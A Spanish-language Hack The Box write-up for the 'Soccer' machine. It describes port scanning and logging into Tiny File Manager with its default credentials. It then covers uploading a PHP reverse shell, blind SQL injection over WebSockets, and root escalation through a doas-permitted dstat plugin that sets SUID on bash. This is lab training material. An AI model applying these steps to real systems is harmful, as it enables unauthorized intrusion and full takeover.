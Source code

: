 ```yaml
---
layout: single
title: Soccer - Hack The Box - WriteUp
excerpt: "Resolución de la máquina de dificultad fácil 'Soccer' de Hack the Box"
date: 2023-03-06
classes: wide
header:
  teaser: /assets/images/htb-writeup-soccer/soccer-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - websocket
  - blind sqli
  - doas
  - dstat
  - path transversal
---
```


![soccer-logo](/assets/images/htb-writeup-soccer/soccer-logo.png)

## Portscan

```bash
Nmap scan report for soccer.htb (10.10.11.194)                                                                                                                                                                    
Host is up (0.063s latency).                                                                                                                                                                                      
Not shown: 65532 closed tcp ports (reset)                                                                                                                                                                         
PORT     STATE SERVICE         VERSION                                                                                                                                                                            
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                    
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)                                                                                                                                                    
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)                                                                                                                                                   
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)                                                                                                                                                 
80/tcp   open  http            nginx 1.18.0 (Ubuntu)                                                                                                                                                              
|_http-title: Soccer - Index                                                                                                                                                                                      
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                                                                       
9091/tcp open  xmltec-xmlmail?                                                                                                                                                                                    
|......
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

La página principal de la web no tiene información relevante y no hay ningún enlace que nos redirija a otra página. Vamos a usar un buscador de directorios como puede ser **dirsearch** para ver si encontramos algo:

![dirsearch-command](/assets/images/htb-writeup-soccer/dirsearch-command.png)

El programa ha encontrado un directorio llamado 'tiny' que contiene una página de login.

## Tiny Exploitation

La apliación web Tiny File Manager es opensource y el código fuente se puede encontrar en GitHub. Gracias a ellos sabemos que por defecto la aplicación viene con dos usuarios, **admin** y **user**. Usando las credenciales encontradas en el código fuente conseguimos acceder al panel del control de la aplicación.

## User shell

Ya tenemos acceso a la aplicación de gestión de ficheros cuya versión es 2.4.3. Si buscamos exploits para TinyFileManager encontramos que esta versión es vulnerable a un 'path transversal' a través de su función de subir ficheros. Dado que tenemos la cuenta de administrador, podemos usar esta [webshell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) para subir el fichero, abrirlo y obtener una shell reversa:

![user-shell](/assets/images/htb-writeup-soccer/user-shell.png)

Tras usar linpeas para encontrar posibles formas de escalar privilegios, encontramos que existe un subodminio dentro de **soccer.htb** llamado **oc-player.soccer.htb**. Tras añadir este nuevo dominio a nuestro fichero /etc/hosts observamos que ahora la página web cuenta con nuevas opciones, como match, login y signup.

Procedemos a crear un usuario y hacer login, y nos encontramos con esta nueva página:

![ticket](/assets/images/htb-writeup-soccer/ticket.png)

Esta página comprueba un número de ticket y nos indica si es válido o no. Revisando el código fuente observamos que a través de Websockets realiza consultas a una base de datos. Siguiendo los pasos de este [artículo](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) para realizar **Blind SQL** a WebSockets a través de nodejs, podemos obtener el nombre de la base de datos, sus tablas y la información alojada en ellas. Gracias a esto encontramos el usuario **player** con el que podemos conectar a través de SSH a la máquina.

![db-dump](/assets/images/htb-writeup-soccer/db-dump.png)

Navegamos al escritorio y encontramos la primera flag.

## Privilege escalation

Buscamos archivos que tengan permisos de SUID con el siguiente comando:

```nash
find / -perm /4000 2>/dev/null
```

Observamos que nos sale 'doas' y éste nos permite la ejecución de 'dstat' con permisos de root

![doas](/assets/images/htb-writeup-soccer/doas.png)

Dstat es vulnerable y nos permite la elevación de privilegios si pudiesemos ejecutarlo con permisos de root, pero nosotros tenemos que ejecutar dstat a través de doas para tener dicho privilegio.

Lo primero es encontrar los directorios sobre los que trabaja dstat

```bash
find / -type d -name dstat 2>/dev/null

/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat

```

Usaremos el fichero '/usr/local/share/dstat'

Lo segundo que hay que hacer es crear un script en la ruta anterior que se ejecutará con permisos de root, por ejemplo añadir el bit de SUID a una shell:

```python
import os

os.system('chmod +s /usr/bin/bash')
```

Ahora ejecutamos el script:

![dstat-priv-esc](/assets/images/htb-writeup-soccer/dstat-priv-esc.png)

Si ahora ejecutamos una bash, la shel obtenida tendrá privilegios de root y así conseguimos la segunda flag.
